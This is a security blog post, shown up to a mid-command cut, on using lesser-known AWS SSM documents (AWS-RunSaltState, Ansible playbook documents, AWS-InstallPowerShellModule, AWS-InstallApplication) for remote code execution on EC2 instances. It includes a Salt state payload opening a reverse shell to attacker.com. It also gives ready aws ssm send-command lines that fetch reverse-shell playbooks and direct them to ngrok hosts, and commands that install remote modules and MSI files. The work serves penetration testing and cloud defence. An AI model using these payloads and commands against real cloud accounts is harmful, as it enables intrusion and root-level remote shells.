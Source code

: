 ```yaml
---
title: 7 lesser-known AWS SSM Document techniques for code execution
url: https://securitycafe.ro/2023/04/19/7-lesser-known-aws-ssm-document-techniques-for-code-execution/
source: Security Café
date: 2023-04-20
fetch_date: 2025-10-04T11:34:45.759621
---
```


# 7 lesser-known AWS SSM Document techniques for code execution

[Skip to content](#content)

[Security Café](https://securitycafe.ro/)

Security Research and Services

* [Things we do on a daily basis](https://securitycafe.ro/security-services-for-business/)
  + [Red Team (DORA/TIBER) exercises](https://securitycafe.ro/security-services-for-business/dora-tiber-exercises/)
  + [Web Application Penetration Testing](https://securitycafe.ro/security-services-for-business/web-application-penetration-testing/)
  + [Mobile Application Penetration Testing](https://securitycafe.ro/security-services-for-business/mobile-application-penetration-testing/)
  + [Infrastructure Penetration Testing](https://securitycafe.ro/security-services-for-business/infrastructure-penetration-testing/)
  + [Vulnerability Assessment](https://securitycafe.ro/security-services-for-business/vulnerability-assessment/)
* [CVEs, Talks and Tools](https://securitycafe.ro/cves-talks-and-tools/)
* [Contact](https://securitycafe.ro/contact/)
* [About](https://securitycafe.ro/about/)

[![](https://securitycafe.ro/wp-content/uploads/2015/01/cropped-cropped-coffee-banner-2-4.jpg)](https://securitycafe.ro/)

![](https://securitycafe.ro/wp-content/uploads/2023/03/7-lesser-known-feature-image.png?w=655)

# 7 lesser-known AWS SSM Document techniques for code execution

[April 19, 2023](https://securitycafe.ro/2023/04/19/7-lesser-known-aws-ssm-document-techniques-for-code-execution/ "9:30 am") [Eduard Agavriloae](https://securitycafe.ro/author/eagavriloae/ "View all posts by Eduard Agavriloae") [aws](https://securitycafe.ro/category/cloud-security/aws/), [Cloud Security](https://securitycafe.ro/category/cloud-security/), [Pentest techniques](https://securitycafe.ro/category/pentest-techniques/) [Leave a comment](https://securitycafe.ro/2023/04/19/7-lesser-known-aws-ssm-document-techniques-for-code-execution/#respond)

A deep dive into AWS SSM Run Command shows that there are multiple documents attackers can use for executing code remotely on EC2 instances. In this article I’ll present you 7 other documents that can be used when AWS-RunShellScript or AWS-RunPowerShellScript are not allowed.

## Introduction

In my previous articles we saw how and what you can do with AWS SSM Run Command using the documents AWS-RunShellScript and AWS-RunPowerShellScript ([AWS ssm:SendCommand or network agnostic built-in RCE as root](https://securitycafe.ro/2023/01/17/aws-post-explitation-with-ssm-sendcommand/) and [EC2StepShell: A Tool for Getting Reverse Shells on Instances with Network Restrictions](https://securitycafe.ro/2023/03/08/ec2stepshell-reverse-shells-private-ec2-instances/)). But what if the ssm:SendCommand is denied on both documents? Put inside a policy, this scenario will look like this:

![](https://securitycafe.ro/wp-content/uploads/2023/03/image-7.png?w=718)

Policy that denies the usage of classic documents used for RCE

The policy above allows us to perform ec2:DescribeInstances and ssm:ListCommandInvocations on all resources, but for ssm:SendCommand we can use it on every resource except the documents AWS-RunShellScript and AWS-RunPowerShellScript.

During my research, I discovered 7 other SSM documents that can be used to execute code remotely using SSM Run Command. The payloads presented can be found in the next repository: <https://github.com/saw-your-packet/fun-with-ssm>.

## 1. AWS-RunSaltState

This document will download from a remote location a Salt state file and interpret it. Salt state files are part of SaltStack, a technology for infrastructure management. The file format is YAML and the AWS-RunSaltState document can download it from S3 Buckets or HTTP(S) servers.

The payload for running arbitrary code will use “cmd.run”, as exemplified below where we have a payload for getting a reverse shell.

```
mycommand:
  cmd.run:
    - name: 0<&196;exec 196<>/dev/tcp/attacker.com/1337; sh <&196 >&196 2>&196
```

The downside is that Salt Stack needs to be installed on the target system and that’s not the case by default.

For this document, as well as for the rest of them, we can create parameterized payloads. Meaning that we will use a single generic payload and pass the host and port as parameters.

Improved Salt state file:

![](https://securitycafe.ro/wp-content/uploads/2023/03/image-9.png?w=840)

<https://github.com/saw-your-packet/fun-with-ssm/blob/main/AWS-RunSaltState/linux/reverse_shell.yml>

Example usage:

```
aws ssm send-command --document-name AWS-RunSaltState \
	--instance-id i-06ae9883fe6e5d721 \
	--parameters \
'{"stateurl":["https://raw.githubusercontent.com/saw-your-packet/fun-with-ssm/main/AWS-RunSaltState/linux/reverse_shell.yml"], "pillars":["{\"host\":\"7.tcp.eu.ngrok.io\", \"port\":\"14460\"}"]}'
```

Result:

![](https://securitycafe.ro/wp-content/uploads/2023/03/image-11.png?w=1024)

Reverse shell using parameterized payload – AWS-RunSaltState

As you can see, we are running as root, just as we were when executing commands with AWS-RunShellScript or AWS-RunPowerShellScript.

## 2. AWS-ApplyAnsiblePlaybooks

It downloads from remote locations Ansible Playbooks and executes them. It can download from S3 Buckets or GitHub repositories.

The advantage here is that it can also install Ansible on the system.

The parameterized Ansible Playbook for getting a reverse shell:

![](https://securitycafe.ro/wp-content/uploads/2023/03/image-12.png?w=824)

<https://github.com/saw-your-packet/fun-with-ssm/blob/main/AWS-ApplyAnsiblePlaybooks/linux/reverse_shell.yml>

Example usage:

```
aws ssm send-command --instance-id i-0ecad5485f77f18f4 \
	--document-name "AWS-ApplyAnsiblePlaybooks" \
	--parameters \
'{"SourceType":["GitHub"],"SourceInfo":["{\"owner\":\"saw-your-packet\", \"repository\":\"fun-with-ssm\",\"path\":\"AWS-ApplyAnsiblePlaybooks/linux/\", \"getOptions\":\"branch:main\"}"],"InstallDependencies":["True"],"PlaybookFile":["reverse_shell.yml"],"ExtraVariables":["host=6.tcp.eu.ngrok.io port=13012"]}'
```

Because it is a GitHub repository, we have to specify more parameters than an HTTP server. Besides that, the parameters of interest are:

* InstallDependencies
  + Set to `true` for installing Ansible on the system
* ExtraVariables
  + Here we specify the host and port where to receive the reverse shell

![](https://securitycafe.ro/wp-content/uploads/2023/03/picture2.png?w=1024)

Reverse shell using parameterized payload – AWS-ApplyAnsiblePlaybook

## 3. AWS-RunAnsiblePlaybook

It does the same thing as AWS-ApplyAnsiblePlaybook with some differences:

* Can download only from S3 Buckets and HTTP(S) servers
* It requires Ansible to be already installed on the system

The same Ansible Playbook can be used, but the command to send the command is different:

```
aws ssm send-command --document-name "AWS-RunAnsiblePlaybook" \
	--instance-id i-0ecad5485f77f18f4 \
	--parameters \
'{"playbookurl":["https://raw.githubusercontent.com/saw-your-packet/fun-with-ssm/main/AWS-RunAnsiblePlaybook/linux/reverse_shell.yml"],"extravars":["host=7.tcp.eu.ngrok.io port=14355"]}'
```

## 4. AWS-InstallPowerShellModule

It downloads from remote locations PS module and installs them. It only supports HTTP(S) servers.

The way the document is build, it allows you to execute an arbitrary command after the module was installed. Because of this, the PS module doesn’t need to be malicious.

Example usage:

```
aws ssm send-command --document-name "AWS-InstallPowerShellModule" \
    --instance-id i-06ae9883fe6e5d721 \
    --parameters '{"source":["https://your-server.com/module.ps1"], "commands":["whoami"]}’ \
    --region us-east-1
```

## 5. AWS-InstallApplication

It downloads from remote locations MSI files and installs them. It only supports HTTP(S) servers. You can pass arguments to the MSI installation if want to. You need to be aware of AV at this point if the file is malicious.

Example usage:

```
aws ssm send-command --document-name "AWS-InstallApplication" \
    --instance-id i-06ae9883fe6e5d721 \
    --parameters '{"action":["Install"], "parameters":["p...